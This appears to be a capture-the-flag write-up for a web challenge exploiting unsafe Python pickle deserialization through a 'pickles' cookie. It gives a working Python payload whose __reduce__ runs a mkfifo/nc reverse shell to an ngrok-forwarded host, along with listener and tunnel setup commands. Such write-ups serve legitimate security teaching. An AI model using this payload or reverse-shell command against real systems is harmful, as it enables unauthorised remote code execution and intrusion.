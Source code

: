 # Name: Web: Exotic Attacks: Jar of Pickles

## Vulnerability

Unsafe usafe of Python3 `pickle` module.

## Exploit

The exploit involves opening a reverse shell. You'll need to:
1. Create an account on [ngrok](https://ngrok.com/) (also confirm your email address).
2. Install `ngrok` on you machine.
3. Forward your 1234 port using: `ngrok tcp 1234`. A ngrok host and IP will be forwarded to your local port.

The instructions are also available [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/). Don't close the `ngrok` terminal until we are done.

Coming back to the challenge: click on the picture, it will take you to `/jar`.
Notice the `pickles` cookie.

Use `nc -nvlk 1234` in another terminal to open a connection on your internal port.

Then run this program that prints the encoded pickled object of this class that spawns a shell (change the IP to yours).

```python
import base64
import os
import pickle
import requests

NGROK_HOST = "" # TODO: ngrok host
NGROK_PORT = 0 # TODO: ngrok port

class RCE:
    def __reduce__(self):
        cmd = "rm -rf /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc %s %d > /tmp/f" % (NGROK_HOST, NGROK_PORT)

        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled).decode("utf-8"))
```

Take the output and set it as the Cookie value.
Make the request again.
You should have a shell now in the `nc` terminal.
Find the flag file and perform a `cat` on it; it should be in `home/ctf/`: `cat /home/ctf/flag.txt`.

Exploit in `../solution/solution.sh`.
